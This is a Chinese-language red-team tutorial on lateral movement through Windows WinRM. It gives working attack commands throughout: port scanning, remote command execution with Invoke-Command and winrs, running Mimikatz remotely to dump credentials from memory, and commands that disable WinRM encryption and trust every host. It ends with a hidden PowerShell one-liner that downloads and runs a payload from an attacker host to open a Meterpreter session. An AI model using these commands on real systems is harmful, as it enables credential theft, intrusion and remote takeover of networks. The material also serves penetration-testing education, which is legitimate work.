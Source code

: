 # 原创
：  横向移动 – WinRM

# 横向移动 – WinRM

### 前言

同学们可能没有听说过WinRM横向移动技术，今天我给大家分析讲解一波儿<br/> 看不懂也没关系，先看看有个大概的概念，以后慢慢就懂了

### 技术解释

WinRM 代表 Windows 远程管理，是一种允许管理员远程在系统上执行管理任务的服务。通信通过 HTTP (5985) 或 HTTPS SOAP (5986) 执行，默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证。使用此服务需要管理员级别的凭据。

在红队场景中，如果已获得本地管理员访问权限，则如果使用 WinRM 管理服务器，则这些凭据可用于网络内部的横向移动。

### 端口发现利用

打开端口 5985 的主机正在运行 WinRM 服务。可以使用简单的 Nmap 扫描来确定这些主机
1.  `nmap -p 5985 -sV 10.0.0.2 10.0.0.1` 
<br/> 如果端口 5985 打开但端口 5986 关闭，这说明着 WinRM 服务配置为仅接受通过 HTTP 的连接并且未启用加密

<br/> 从已经具有本地管理员访问权限且这些权限与目标系统共享的系统中，PowerShell Invoke-Command可用于通过 WinRM 服务执行命令
1.  `Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }` 
<br/> Mimikatz 还可以远程执行以检索存储在内存中的凭据，而无需将任何二进制文件放入磁盘
1.  `Import-Module ./Invoke-Mimikatz.ps1` 1.  `Invoke-Mimikatz -ComputerName TARGET` 
<br/> 然后，这些凭据可用于访问其他系统，这会导致域升级

对于不运行 WinRM 的系统，可以使用合法的 Windows 服务来启用和配置此服务以实现持久性。以下命令将启用 WinRM
1.  `Enable-PSRemoting -Force` 
<br/> 默认情况下，可能无法通过 WinRM 连接到另一个系统，并且可能需要其他配置。以下命令将有助于正确配置服务，以便从任何主机进行 HTTP 访问
1.  `winrm quickconfig` 1.  `winrm set winrm/config/Client &lt;span class="label label-primary"&gt;@{AllowUnencrypted&lt;/span&gt; = "true"}` 1.  `Set-Item WSMan:localhost\client\trustedhosts -value *` 
### WinRS

Windows 远程外壳 (WinRS) 是一个命令行工具，是 Windows 2008 及更高版本的一部分。如果启用了 WinRM，则可以使用该实用程序在主机上远程执行命令。cmd参数将通过命令提示符建立一个新的 shell
1.  `winrs -r:http://WIN-2NE38K15TGH/wsman "cmd"` 
<br/> 或者，可以执行命令来代替 shell 命令提示符，以便对目标执行静默侦察
1.  `winrs -r:http://WIN-2NE38K15TGH/wsman "net localgroup administrators"` 
<br/> 还可以通过 Metasploit 网络交付模块将 Windows Remote Shell 访问升级为 Meterpreter 会话。该模块将生成一个有效负载，该有效负载将在本地托管，并将生成需要在目标上执行的 PowerShell 命令。
1.  `use multi/script/web_delivery` 
<br/> 从已通过 WinRS 连接的系统执行 PowerShell 命令将下载并执行任意代码
1.  `powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$h=new-object net.webclient;$h.proxy=[Net.WebRequest]::GetSystemWebProxy();$h.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $h.downloadstring('https://10.0.0.3:8080/4WM88bQsuZS');` 
<br/> Meterpreter 会话将打开，这将在后期开发活动方面提供更大的灵活性。
